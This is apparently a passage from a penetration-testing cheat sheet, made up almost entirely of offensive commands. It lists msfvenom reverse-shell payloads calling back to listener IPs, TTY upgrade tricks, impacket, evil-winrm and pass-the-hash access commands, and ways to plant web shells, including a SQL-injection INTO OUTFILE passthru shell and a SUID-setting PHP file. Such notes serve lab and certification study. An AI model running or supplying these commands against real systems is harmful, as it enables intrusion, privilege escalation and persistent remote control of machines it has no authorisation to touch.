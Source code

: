   ```
  - `python ps_encoder.py -s powershell_reverse_shell.ps1`
  - `python ps_encoder.py -s powershell_reverse_shell_2.ps1`


**Upgrade shell**
1. `python -c 'import pty;pty.spawn("/bin/bash")'`
   - `python3 -c 'import pty;pty.spawn("/bin/bash")'`
   - `perl -e 'exec "/bin/bash";'`
   - `/usr/bin/script -qc /bin/bash /dev/null`
2. `CTRL^Z`
3. `stty raw -echo;fg`
4. `reset`
5. `xterm-256color`
If something goes wrong
- `export TERM=xterm-256color`
- `stty rows 56 columns 213`
- `export PATH="/bin:/sbin:/usr/bin:/usr/sbin:$PATH"`
- `export SHELL=/bin/bash`


**msfvenom shells**
- `msfvenom -p linux/x64/exec -f elf-so PrependSetuid=true | base64`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 EXITFUNC=thread -f exe -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.215 LPORT=445 -f exe -e 64/xor -o shell.exe`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.163 LPORT=445 -f exe -o shell.exe`
- `msfvenom -f psh-cmd -p windows/shell_reverse_tc LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -f ps1 -p windows/shell_reverse_tcp LHOST=tun0 LPORT=8443 -o rev.ps1`
- `msfvenom -p windows/shell_reverse_tcp lhost=192.168.1.3 lport=443 -f msi > shell.msi`
- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=8444 -f aspx > devel.aspx`
  - run with: `msiexec /quiet /qn /i shell.msi`
- `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.45.231 LPORT=4242 -f elf > reverse.elf`
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.30 LPORT=4445 -f war > shell.war`
  - for file uploads in tomcat/manager
  - `setoolkit > 1 > 9 > 1`
- Resources
  - https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/
  - https://www.hackingarticles.in/msfvenom-cheatsheet-windows-exploitation/

**Access shell**
- `impacket-wmiexec domain.local/username@IP`
- `impacket-wmiexec domain.local/username@IP -hashes :HASH`
- `evil-winrm -u 'username' -p '*******' -i IP -N`
- `evil-winrm -i IP -u username -p password`
- `evil-winrm -u username -H ':HASH' -i IP -N`
- `crackmapexec smb IP -u username -p "password"`
- `impacket-psexec username:password@IP`
  - `msf> use exploit/windows/smb/psexec`
  - https://0xdf.gitlab.io/2020/01/26/digging-into-psexec-with-htb-nest.html

**Save files**
- `echo "<?php system('chmod +x /usr/bin/find; chmod +s /usr/bin/find');?>" >index.php`
- `' UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/command.php'  -- -'`
- `curl -T my-shell.php -u 'administrant:sleepless' http://muddy.ugc/webdav/`



## More stuff

**Recon with favicons**
  ```